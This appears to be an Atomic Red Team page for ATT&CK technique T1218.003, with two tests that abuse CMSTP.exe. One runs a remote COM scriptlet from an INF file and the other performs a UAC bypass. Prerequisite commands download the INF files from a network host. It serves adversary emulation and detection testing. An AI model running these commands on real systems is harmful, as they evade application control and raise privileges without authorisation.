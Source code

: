 # T1218.003 - Signed Binary Proxy Execution: CMSTP
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1218/003)
<blockquote>

Adversaries may abuse CMSTP to proxy execution of malicious code. The Microsoft Connection Manager Profile Installer (CMSTP.exe) is a command-line program used to install Connection Manager service profiles. (Citation: Microsoft Connection Manager Oct 2009) CMSTP.exe accepts an installation information file (INF) as a parameter and installs a service profile leveraged for remote access connections.

Adversaries may supply CMSTP.exe with INF files infected with malicious commands. (Citation: Twitter CMSTP Usage Jan 2018) Similar to [Regsvr32](https://attack.mitre.org/techniques/T1218/010) / ”Squiblydoo”, CMSTP.exe may be abused to load and execute DLLs (Citation: MSitPros CMSTP Aug 2017)  and/or COM scriptlets (SCT) from remote servers. (Citation: Twitter CMSTP Jan 2018) (Citation: GitHub Ultimate AppLocker Bypass List) (Citation: Endurant CMSTP July 2018) This execution may also bypass AppLocker and other application control defenses since CMSTP.exe is a legitimate binary that may be signed by Microsoft.

CMSTP.exe can also be abused to [Bypass User Account Control](https://attack.mitre.org/techniques/T1548/002) and execute arbitrary commands from a malicious INF through an auto-elevated COM interface. (Citation: MSitPros CMSTP Aug 2017) (Citation: GitHub Ultimate AppLocker Bypass List) (Citation: Endurant CMSTP July 2018)

</blockquote>

## Atomic Tests

- [Atomic Test #1 - CMSTP Executing Remote Scriptlet](#atomic-test-1---cmstp-executing-remote-scriptlet)

- [Atomic Test #2 - CMSTP Executing UAC Bypass](#atomic-test-2---cmstp-executing-uac-bypass)


<br/>

## Atomic Test #1 - CMSTP Executing Remote Scriptlet
Adversaries may supply CMSTP.exe with INF files infected with malicious commands

**Supported Platforms:** Windows


**auto_generated_guid:** 34e63321-9683-496b-bbc1-7566bc55e624





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| inf_file_path | Path to the INF file | path | PathToAtomicsFolder&#92;T1218.003&#92;src&#92;T1218.003.inf|


#### Attack Commands: Run with `command_prompt`! 


```cmd
cmstp.exe /s "#{inf_file_path}"
```




#### Dependencies:  Run with `powershell`!
##### Description: INF file must exist on disk at specified location (#{inf_file_path})
##### Check Prereq Commands:
```powershell
if (Test-Path "#{inf_file_path}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path "#{inf_file_path}") -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://rangegogs.cnd.ca.gov/Range/atomic-red-team/raw/master/atomics/T1218.003/src/T1218.003.inf" -OutFile "#{inf_file_path}"
```




<br/>
<br/>

## Atomic Test #2 - CMSTP Executing UAC Bypass
Adversaries may invoke cmd.exe (or other malicious commands) by embedding them in the RunPreSetupCommandsSection of an INF file

**Supported Platforms:** Windows


**auto_generated_guid:** 748cb4f6-2fb3-4e97-b7ad-b22635a09ab0





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| inf_file_uac | Path to the INF file | path | PathToAtomicsFolder&#92;T1218.003&#92;src&#92;T1218.003_uacbypass.inf|


#### Attack Commands: Run with `command_prompt`! 


```cmd
cmstp.exe /s "#{inf_file_uac}" /au
```




#### Dependencies:  Run with `powershell`!
##### Description: INF file must exist on disk at specified location (#{inf_file_uac})
##### Check Prereq Commands:
```powershell
if (Test-Path "#{inf_file_uac}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path "#{inf_file_uac}") -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://rangegogs.cnd.ca.gov/Range/atomic-red-team/raw/master/atomics/T1218.003/src/T1218.003_uacbypass.inf" -OutFile "#{inf_file_uac}"
```




<br/>
